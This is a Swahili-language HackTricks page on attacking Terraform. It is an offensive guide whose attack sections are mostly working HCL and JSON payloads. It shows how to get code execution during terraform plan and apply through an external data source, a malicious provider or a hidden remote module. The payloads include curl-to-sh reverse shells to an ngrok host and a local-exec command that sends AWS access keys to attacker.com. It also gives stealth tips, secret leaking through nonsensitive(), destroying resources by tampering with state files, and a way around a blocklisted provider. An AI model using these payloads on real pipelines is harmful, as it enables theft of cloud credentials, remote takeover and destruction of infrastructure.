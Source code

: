 # Usalama wa Terraform

<details>

{% hint style="success" %}
Jifunze na zoezi la AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Taarifa Msingi

[Kutoka kwa nyaraka:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform ni chombo cha **infrastructure as code** kinachokuwezesha kufafanua **rasilimali za wingu na za ndani** katika faili za usanidi zinazoweza kusomwa na binadamu ambazo unaweza kuzitolea toleo, kutumia tena, na kushiriki. Unaweza kisha kutumia mchakato thabiti kutoa na kusimamia miundombinu yako yote kwa njia yake ya maisha. Terraform inaweza kusimamia vipengele vya kiwango cha chini kama vile kompyuta, uhifadhi, na rasilimali za mtandao, pamoja na vipengele vya kiwango cha juu kama vile kuingia kwenye DNS na huduma za SaaS.

### Terraform Inafanyaje Kazi?

Terraform inaunda na kusimamia rasilimali kwenye majukwaa ya wingu na huduma zingine kupitia interfaces zao za programu (APIs). Watoa huduma huwezesha Terraform kufanya kazi na karibu kila jukwaa au huduma na API inayopatikana.

![](<../.gitbook/assets/image (177).png>)

HashiCorp na jamii ya Terraform tayari wameandika **zaidi ya watoa huduma 1700** kusimamia aina tofauti maelfu ya rasilimali na huduma, na idadi hii inaendelea kuongezeka. Unaweza kupata watoa huduma wote wanaopatikana hadharani kwenye [Usajili wa Terraform](https://registry.terraform.io/), ikiwa ni pamoja na Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, na mengi zaidi.

Mchakato msingi wa Terraform unajumuisha hatua tatu:

* **Andika:** Unafafanua rasilimali, ambazo zinaweza kuwa kwenye watoa huduma na huduma nyingi za wingu. Kwa mfano, unaweza kuunda usanidi wa kupeleka programu kwenye mashine za vitu vya kibinafsi katika mtandao wa Virtual Private Cloud (VPC) na vikundi vya usalama na balansa ya mzigo.
* **Panga:** Terraform inaunda mpango wa utekelezaji unaoelezea miundombinu itakayoundwa, kusasishwa, au kuharibiwa kulingana na miundombinu iliyopo na usanidi wako.
* **Tumia:** Kwa idhini, Terraform hutekeleza shughuli zilizopendekezwa kwa mpangilio sahihi, kuheshimu mitegemeo yoyote ya rasilimali. Kwa mfano, ikiwa unasasisha mali ya VPC na kubadilisha idadi ya mashine za vitu katika VPC hiyo, Terraform itaunda upya VPC kabla ya kupanua mashine za vitu.

![](<../.gitbook/assets/image (215).png>)

## Maabara ya Terraform

Tuweke terraform kwenye kompyuta yako.

Hapa una [mwongozo](https://learn.hashicorp.com/tutorials/terraform/install-cli) na hapa una [njia bora ya kupakua terraform](https://www.terraform.io/downloads).

## RCE katika Terraform

Terraform **haina jukwaa linalofunua ukurasa wa wavuti au huduma ya mtandao** tunayoweza kuchambua, kwa hivyo, njia pekee ya kudhoofisha terraform ni **kuweza kuongeza/kurekebisha faili za usanidi wa terraform**.

Hata hivyo, terraform ni **sehemu nyeti sana** ya kudhoofishwa kwa sababu itakuwa na **upatikanaji wa haki za kipekee** kwa maeneo tofauti ili iweze kufanya kazi vizuri.

Njia kuu kwa mshambuliaji kuweza kudhoofisha mfumo ambapo terraform inaendeshwa ni **kudhoofisha hazina inayohifadhi mizizi ya faili za usanidi wa terraform**, kwa sababu kwa wakati fulani zitakuwa **zinatafsiriwa**.

Kwa kweli, kuna suluhisho huko ambalo **hutekeleza moja kwa moja mpango/utekelezaji wa terraform baada ya PR** kuundwa, kama vile **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Ikiwa unaweza kudhoofisha faili ya terraform kuna njia tofauti unaweza kufanya RCE wakati mtu anatekeleza `terraform plan` au `terraform apply`.

### Terraform plan

Terraform plan ni **amri inayotumiwa zaidi** katika terraform na waendelezaji/suluhisho wanaotumia terraform wanaita mara kwa mara, kwa hivyo **njia rahisi ya kupata RCE** ni kuhakikisha unachafua faili ya usanidi wa terraform ambayo itatekeleza amri za kiholela katika `terraform plan`.

#### Kutumia mtoa huduma wa nje

Terraform inatoa [`mtoa huduma wa nje`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) ambao hutoa njia ya kuingiliana kati ya Terraform na programu za nje. Unaweza kutumia chanzo cha data cha `external` kutekeleza nambari ya kiholela wakati wa `plan`.

Kuingiza katika faili ya usanidi wa terraform kitu kama hiki kutatekeleza rev shell wakati wa kutekeleza `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Kutumia mtoa huduma ya desturi

Mshambuliaji anaweza kutuma [mtoa huduma ya desturi](https://learn.hashicorp.com/tutorials/terraform/provider-setup) kwenye [Usajili wa Terraform](https://registry.terraform.io/) na kisha kuongeza kwenye nambari ya Terraform kwenye tawi la kipengele ([mfano kutoka hapa](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
```html
<p>Watoa huduma wanapakuliwa katika `init` na itaendesha nambari ya kudhuru wakati `plan` inatekelezwa</p>

<p>Unaweza kupata mfano katika [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)</p>

<h4>Kutumia kumbukumbu ya nje</h4>

<p>Chaguo zote zilizotajwa ni muhimu lakini sio za siri sana (ya pili ni ya siri zaidi lakini ngumu zaidi kuliko ya kwanza). Unaweza kufanya shambulio hili hata kwa njia ya **siri zaidi**, kwa kufuata mapendekezo haya:</p>

<ul>
<li>Badala ya kuongeza rev shell moja kwa moja kwenye faili ya terraform, unaweza **kupakia rasilimali ya nje** ambayo ina rev shell:</li>
</ul>
```
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Unaweza kupata msimbo wa rev shell katika [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Katika rasilimali ya nje, tumia kipengele cha **ref** kuficha **msimbo wa rev shell wa terraform katika tawi** ndani ya repo, kitu kama: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Kutumia Terraform

Terraform apply itatekelezwa ili kutumia mabadiliko yote, unaweza pia kuitumia vibaya kupata RCE kwa kuingiza **faili ya Terraform yenye nia mbaya** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Unahitaji tu kuhakikisha kuwa mzigo kama huu unamalizika katika faili ya `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Fuata **mapendekezo kutoka kwa mbinu iliyopita** kutekeleza shambulizi hili kwa njia **ya kujificha zaidi kwa kutumia vyanzo vya nje**.

## Kupitisha Siri

Unaweza kuwa na **thamani za siri zinazotumiwa na terraform zilizomwagika** kwa kukimbia `terraform apply` kwa kuongeza kitu kama hiki kwenye faili ya terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Kutumia Vibaya Faili za Hali ya Terraform

Kwa kesi ambapo una ufikiaji wa kuandika kwenye faili za hali ya terraform lakini huwezi kubadilisha nambari ya terraform, [**utafiti huu**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) unatoa chaguo zingine za kuvuna faida kutoka kwenye faili:

### Kufuta rasilimali <a href="#deleting-resources" id="deleting-resources"></a>

Kuna njia 2 za kuharibu rasilimali:

1. **Ingiza rasilimali yenye jina la nasibu kwenye faili ya hali ikielekeza kwenye rasilimali halisi ya kuharibu**

Kwa sababu terraform itaona kwamba rasilimali haipaswi kuwepo, itaiondoa (ikifuata kitambulisho cha rasilimali halisi kilichotajwa). Mfano kutoka ukurasa uliopita:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Badilisha rasilimali ya kufuta kwa njia ambayo haiwezekani kusasisha (hivyo itafutwa na kujengwa upya)**

Kwa kifaa cha EC2, kubadilisha aina ya kifaa cha kutosha kufanya terraform ifute na kuijenga upya.

### RCE

Pia niwezekana [kuunda mtoa huduma ya desturi](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) na kubadilisha moja ya watoaji katika faili ya hali ya terraform kwa ile yenye nia mbaya au kuongeza rasilimali tupu na mtoa huduma yenye nia mbaya. Mfano kutoka kwa utafiti wa awali:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Badilisha mtoa huduma aliye kwenye orodha nyeusi

Katika kesi unakutana na hali ambapo `hashicorp/external` ilikuwa kwenye orodha nyeusi, unaweza kutekeleza upya mtoa huduma wa `external` kwa kufuata hatua zifuatazo. Tafadhali kumbuka: Tunatumia toleo la mtoa huduma wa external uliochapishwa na https://registry.terraform.io/providers/nazarewk/external/latest. Unaweza pia kuchapisha toleo lako au kutekeleza upya.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Kisha unaweza kutumia `external` kama kawaida.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Zana za Ukaguzi

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec hutumia uchambuzi wa kistatiki wa nambari yako ya terraform kutambua upangaji wa kimakosa unaoweza kutokea.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan ni kianalizi cha nambari ya kistatiki kwa Miundombinu kama Nambari.

## Marejeo

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Jifunze & zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>unga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
